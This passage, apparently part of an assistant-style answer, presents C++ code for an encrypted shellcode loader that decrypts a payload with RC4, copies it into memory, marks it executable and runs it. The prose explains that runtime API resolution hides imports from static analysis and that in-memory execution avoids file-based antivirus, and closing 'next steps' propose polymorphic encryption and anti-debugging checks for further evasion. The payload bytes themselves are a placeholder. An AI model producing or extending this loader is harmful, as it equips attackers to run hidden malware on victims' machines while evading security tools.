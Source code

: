 ```cpp

    void* execMem = MyVirtualAlloc(0, size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (execMem == NULL) {
        std::cerr << "Failed to allocate memory for execution (code: " << GetLastError() << ")" << std::endl;
        return;
    }

    MyRtlMoveMemory(execMem, buffer, size);

    DWORD oldProtect;
    MyVirtualProtect(execMem, size, PAGE_EXECUTE_READ, &oldProtect);

    // Cast to function and execute
    auto shellcodeFunc = (void(*)())execMem;
    shellcodeFunc();
}

int main(int argc, char* argv[]) {
    unsigned char encryptedShellcode[] = { /* Encrypted shellcode bytes go here */ };
    char key[] = "your_polymorphic_key"; // Polymorphic key

    size_t shellcodeSize = sizeof(encryptedShellcode);
    rc4(encryptedShellcode, shellcodeSize, key, strlen(key));

    executeShellcode(encryptedShellcode, shellcodeSize);

    return 0;
}
```

### Key Points in the Updated Code

1. **Dynamic API Resolution**:
   - Functions like `VirtualAlloc`, `VirtualProtect`, and `RtlMoveMemory` are resolved at runtime using `GetProcAddress`. This makes the code harder to analyze statically since the imports are not visible in the PE headers.

2. **Reflective Loading**:
   - The shellcode is decrypted and then executed in memory using `VirtualAlloc` to allocate executable memory, `RtlMoveMemory` to copy the shellcode to the allocated memory, and `VirtualProtect` to mark the memory as executable.
   - This avoids writing the payload to disk, reducing the chances of detection by file-based antivirus systems.

### Next Steps

- **Polymorphic Shellcode**: To further obfuscate the shellcode, use the provided Python script to generate RC4-encrypted shellcode with a random key.
- **Anti-Analysis Techniques**: Additional measures like anti-debugging checks, environment checks, and control flow obfuscation can be implemented for further evasion.
